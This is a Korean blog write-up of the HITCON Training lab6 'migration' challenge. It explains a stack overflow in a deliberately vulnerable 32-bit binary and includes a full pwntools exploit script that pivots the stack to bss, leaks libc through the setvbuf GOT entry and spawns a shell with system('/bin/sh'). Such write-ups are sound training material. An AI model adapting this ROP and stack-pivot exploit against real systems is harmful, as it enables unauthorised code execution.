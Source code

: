 ```yaml
---
layout: post
title: "[HITCON Training] lab6"
comments : true
category : War Game
---
```


# 문제
***

migration 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

file 명령어의 결과는 다음과 같다. 
```
migration: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e65737a9201bfe28db6fe46f06d9428f5c814951, not stripped
```

바이너리 코드 
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-28h]

  if ( count != 1337 )
    exit(1);
  ++count;
  setvbuf(_bss_start, 0, 2, 0);
  puts("Try your best :");
  return read(0, &buf, 0x40u);
}
```

바이너리는 매우 간단한데, count 값 검증 이후에  read로 입력을 받고 종료한다. read 함수를 통해서 bof를 발생시킬 수 있는데 여기서 두 가지 문제점이 있다. 

1. read로 64byte 밖에 받지 않는다. (buf가 ebp-0x28에 위치하기 때문에 payload로 구성할 수 있는 공간이 매우 작다.)

2. libc_leak을 한 이후에 stack에 입력을 받아서 ROP를 이어가야 하는데 ASLR이 걸려있기 때문에 stack 주소를 알 수 없다. 

=> 2번 문제를 해결 하기 위해서 stack pivoting이 필요하다.

## exploit 방법

1. sfp에 bss_section의 주소를 넣어둔다.
2. puts 함수를 통해서 setvbuf의 got 값을 알아낸다. 이를 통해서 libc의 base address를 계산할 수 있다. 
3. main에서 read 함수를 호출하는 곳으로 ret한다. 

   read 함수는 ebp-0x28에 입력을 받기 때문에 bss_section에 write를 할 수 있다. 

   여기에 44byte의 쓰레기 값과 system 함수 및 "/bin/sh" 주소를 넣어주면 read 이후의 leave ret을 통해서 system 함수 호출이 가능하다.


# 풀이
```

#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab6/migration"
libc=ELF("/lib/i386-linux-gnu/libc.so.6")


p=process(file_path)
p.recvuntil("best :\n")


puts=0x8048390
setvbuf_got=0x8049ffc
pr=0x0804836d
main_read=0x080484f2

bss_sec=0x804a800

#stage 1
pay="A"*40
pay+=p32(bss_sec)
pay+=p32(puts)
pay+=p32(pr)
pay+=p32(setvbuf_got)
pay+=p32(main_read)

p.send(pay)

setvbuf_addr=u32(p.recv(4))
p.recv()

libc_base=setvbuf_addr-libc.symbols['setvbuf']
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

#stage2
pay2="A"*44
pay2+=p32(system)
pay2+="BBBB"
pay2+=p32(sh)

p.send(pay2)

p.interactive()
```

# 알게 된 것
***
1. stack pivoting 
내가 원하는 곳으로 esp (ebp)를 옮겨서 stack 구성을 내 마음대로 할 수 있게 하는 것

2. puts 함수는 string의 마지막에 "\n"을 추가해서 출력한다.
근데 이 "\n"을 제대로 recv해놓지 않으면 내부적으로 뭔가가 꼬여서 이후에 내가 원하는 내용을 recv하지 못한다. 따라서 출력되는 내용을 그때 그때 recv 해놓고 처리해 놓아야 한다.!!!

3. puts, printf와 같은 함수는 stack을 매우 많이 써서 stack pivoting을 한 영역의 앞 부분이 쓸 수 없는 공간이면 위의 함수가 제대로 작동하지 않을 수 있다.
(즉, push esp나 sub esp,X 명령어를 실행하면서 계속 esp값이 감소하는데 낮은 주소 영역이 writable 하지 않은 공간이면 함수 호출을 진행하다가 터진다.) 

4. No relro => dynamic section + got 쓰기 권한 있음

   Partial relro => got 쓰기 권한 있음

   Full relro => 두 영역에 쓰기 권한 없음

c.f .dynamic section은 dtor,init fini pltgot 등으로 구성되어 있다.

